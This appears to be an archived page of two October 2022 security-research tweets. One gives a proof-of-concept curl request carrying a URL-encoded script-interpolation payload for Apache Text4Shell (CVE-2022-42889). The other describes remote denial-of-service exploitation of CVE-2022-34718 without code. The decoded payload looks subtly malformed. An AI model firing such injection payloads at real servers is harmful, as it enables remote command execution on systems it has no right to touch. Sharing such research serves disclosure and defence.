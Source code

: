 # momika233
**https://twitter.com/momika233/status/1583868470743035904 _at 2022-10-22, 17:10:44_**
<blockquote>
Apache Text4Shell (CVE-2022-42889)

PoC
curl http://localhost/text4shell/attack?search=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.get.Runtime%28%29.exec%28%5C%27%27%2E%74%72%69%6D%28%24%63%6D%64%29%2E%27%5C%27%29%7D
</blockquote>

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>28</code></td>
<td>Retweets: <code>293</code></td>
<td>Favorites: <code>1038</code></td>
</tr></table>

---

# chompie1337
**https://twitter.com/chompie1337/status/1583666434668101637 _at 2022-10-22, 03:47:55_**
<blockquote>
Remotely exploiting CVE-2022-34718, TCP/IP RCE bug #EvilEsp for DoS. This is a bug in Ipv6 fragmentation/IpSec, which allows OOB write if an Ipv6 fragment is contained inside an IpSec ESP payload. https://t.co/k1aoZX2kWq
</blockquote>

<table><tr>
<td><img src="pictures/082a35a3bebaf2c06e7b092b00db54fc75851e823da5c6ccb9480fde64f05d77.jpg" alt="082a35a3bebaf2c06e7b092b00db54fc75851e823da5c6ccb9480fde64f05d77.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>49</code></td>
<td>Replies: <code>55</code></td>
<td>Retweets: <code>535</code></td>
<td>Favorites: <code>3105</code></td>
</tr></table>

---